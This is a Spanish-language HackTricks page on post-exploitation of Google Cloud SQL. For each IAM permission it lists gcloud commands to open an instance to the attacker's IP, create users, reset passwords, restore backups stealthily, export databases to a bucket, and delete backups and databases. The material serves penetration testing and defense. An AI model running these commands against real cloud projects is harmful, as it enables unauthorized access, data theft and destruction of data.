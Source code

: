 # GCP - Explotación Posterior en Cloud SQL

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Cloud SQL

Para más información sobre Cloud SQL, consulta:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para conectarte a las bases de datos **solo necesitas acceso al puerto de la base de datos** y conocer el **nombre de usuario** y **contraseña**, no hay requisitos de IAM. Por lo tanto, una forma fácil de obtener acceso, suponiendo que la base de datos tiene una dirección IP pública, es actualizar las redes permitidas y **permitir que tu propia dirección IP acceda a ella**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
También es posible usar **`--no-backup`** para **interrumpir las copias de seguridad** de la base de datos.

Dado que estos son los requisitos, no estoy completamente seguro de para qué son los permisos **`cloudsql.instances.connect`** y **`cloudsql.instances.login`**. ¡Si lo sabes, envía un PR!

### `cloudsql.users.list`

Obtener una **lista de todos los usuarios** de la base de datos:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Este permiso permite **crear un nuevo usuario dentro de** la base de datos:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Este permiso permite **actualizar usuario dentro de** la base de datos. Por ejemplo, podrías cambiar su contraseña:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Las copias de seguridad pueden contener **información sensible antigua**, por lo que es interesante revisarlas.\
**Restaurar una copia de seguridad** dentro de una base de datos:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para hacerlo de manera más sigilosa, se recomienda crear una nueva instancia SQL y recuperar los datos allí en lugar de en las bases de datos que están en funcionamiento actualmente.

### `cloudsql.backupRuns.delete`

Este permiso permite eliminar copias de seguridad:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportar una base de datos** a un Bucket de Cloud Storage para poder acceder a ella desde allí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar una base de datos** (sobrescribir) desde un Bucket de Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Eliminar una base de datos de la instancia de db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
